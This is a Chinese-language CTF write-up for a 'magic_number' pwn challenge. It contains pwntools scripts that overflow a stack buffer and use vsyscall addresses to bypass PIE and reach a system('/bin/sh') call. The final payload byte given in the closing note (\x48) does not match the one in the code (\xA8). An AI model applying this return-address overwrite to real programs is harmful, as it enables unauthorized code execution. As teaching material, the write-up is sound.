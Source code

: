 # magic_number

### 先看看题目 
首先file一下  
![](./图片/1.png)  
然后查看保护  
![](./图片/2.png)  
emm有PIE。。。应该是莫得动态调试了  

再打开IDA查一波  
![](./图片/3.png)  
看了看main函数，woc这么简单 ~~我那时候把PIE忘了~~  
然后我就写了这个脚本
### 脚本1
```python
#!/usr/bin/python
#coding:utf-8

from pwn import *
context.log_level = 'debug'
io = process('./magic_number')

system_addr = 0x0AA8
payload = cyclic(0x38) + p64(system_addr)

io.sendlineafter("Your Input :",payload)
io.interactive()
```
脑子是个好东西 ~~可惜我没有~~  
### vsyscall利用简介
之后我在看了看保护才想起来有PIE，然后就想起了前几天刚学的vsyscall的滑动绕过  
由于这三个系统调用都是无参数传参，而且地址固定，我们可以用它来绕过PIE，可以把它们就看成是一个ret指令，我们就可以用它不停地“滑”到下一条栈地址。  
### 代码2
```python3
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level = 'debug'
io=process('./magic_number')
#gdb.attach(p)
payload = cyclic(0x38)+p64(0xFFFFFFFFFF600400)
                +p64(0xFFFFFFFFFF600400)+p64(0xFFFFFFFFFF600400)
                +p64(0xFFFFFFFFFF600400)+b'\xA8'
io.sendafter("Your Input :",payload)
io.interactive()

```
#### 注:
1、0xFFFFFFFFFF600400 是 vsyscall 中的 time 函数的地址  
2、\x48 是main函数中执行 system("/bin/sh") 函数的地址的后两位

